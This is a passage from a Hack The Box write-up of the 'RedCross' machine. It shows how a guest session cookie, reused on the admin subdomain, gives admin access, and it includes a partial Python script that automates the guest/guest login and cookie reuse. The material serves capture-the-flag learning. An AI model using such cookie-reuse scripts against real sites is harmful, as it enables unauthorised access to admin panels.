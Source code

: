 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:02:39.png)

Now we set it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:03:04.png)

And, when we reload the page, we got access

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:03:22.png)

The same technique works with the guest cookie, meaning I could have skipped the SQLi all together.

So, we will do a python script to get there, just getting the guest/guest and seeting it as cookie to access the admin page

```py
#!/usr/bin/python3
# Date: 2021-10-09
# Exploit Author: 0x4rt3mis
# Hack The Box - RedCross
# Get access to admin page using guest cookies

import argparse
import requests
import sys
import urllib3
import urllib

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()
urllib3.disable_warnings()

'''Here come the Functions'''

# First, we need to create a user on the app, to get logged in and access the SQLInjection
def login(rhost):
    # Get the cookies
    url = "https://intra.%s.htb:443/?page=contact" %rhost
    headers = {"Referer": "https://intra.redcross.htb/?page=login"}
    r.get(url, headers=headers, cookies=r.cookies, proxies=proxies, verify=False)
    # Now create a login fake
    url = "https://intra.%s.htb:443/pages/actions.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"subject": "credentials", "body": "username=0x4rt3mis", "cback": "0x4rt3mis@email.com", "action": "contact"}
    r.post(url, headers=headers, data=data, proxies=proxies, cookies=r.cookies, allow_redirects=True, verify=False)
    # Now, indeed login
    url = "https://intra.%s.htb:443/pages/actions.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"user": "guest", "pass": "guest", "action": "login"}
    r.post(url, headers=headers, data=data, proxies=proxies, cookies=r.cookies, allow_redirects=True, verify=False)
    global cookie
    cookie = r.cookies['PHPSESSID']

def adminPageCookie(rhost):
    # Ok, let's clean the cokies
    # First we just log in as guest
    url = "https://admin.%s.htb:443/pages/actions.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"user": "guest", "pass": "guest", "action": "login"}
    r.post(url, headers=headers, cookies=r.cookies, data=data, verify=False, proxies=proxies, allow_redirects=True)
```